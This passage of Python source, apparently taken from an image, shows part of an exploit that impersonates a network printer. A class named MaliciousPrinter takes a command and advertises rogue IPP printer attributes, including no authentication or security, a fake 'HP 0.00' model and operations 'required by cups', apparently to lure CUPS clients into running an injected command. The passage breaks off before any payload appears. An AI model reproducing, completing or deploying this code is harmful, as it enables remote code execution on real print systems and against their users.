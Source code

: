 ```python
    raise KeyboardInterrupt()

class MaliciousPrinter(behaviour.StatelessPrinter):
    def __init__(self, command):
        self.command = command
        super(MaliciousPrinter, self).__init__()

    def printer_list_attributes(self):
        attr = {
            # rfc2911 section 4.4
            (
                SectionEnum.printer,
                b'printer-uri-supported',
                TagEnum.uri
            ): [self.printer_uri],
            (
                SectionEnum.printer,
                b'uri-authentication-supported',
                TagEnum.keyword
            ): [b'none'],
            (
                SectionEnum.printer,
                b'uri-security-supported',
                TagEnum.keyword
            ): [b'none'],
            (
                SectionEnum.printer,
                b'printer-name',
                TagEnum.name_without_language
            ): [b'Main Printer'],
            (
                SectionEnum.printer,
                b'printer-info',
                TagEnum.text_without_language
            ): [b'Main Printer Info'],
            (
                SectionEnum.printer,
                b'printer-make-and-model',
                TagEnum.text_without_language
            ): [b'HP 0.00'],
            (
                SectionEnum.printer,
                b'printer-state',
                TagEnum.enum
            ): [Enum(3).bytes()],  # XXX 3 is idle
            (
                SectionEnum.printer,
                b'printer-state-reasons',
                TagEnum.keyword
            ): [b'none'],
            (
                SectionEnum.printer,
                b'ipp-versions-supported',
                TagEnum.keyword
            ): [b'1.1'],
            (
                SectionEnum.printer,
                b'operations-supported',
                TagEnum.enum
            ): [
                Enum(x).bytes()
                for x in (
                    OperationEnum.print_job,  # (required by cups)
```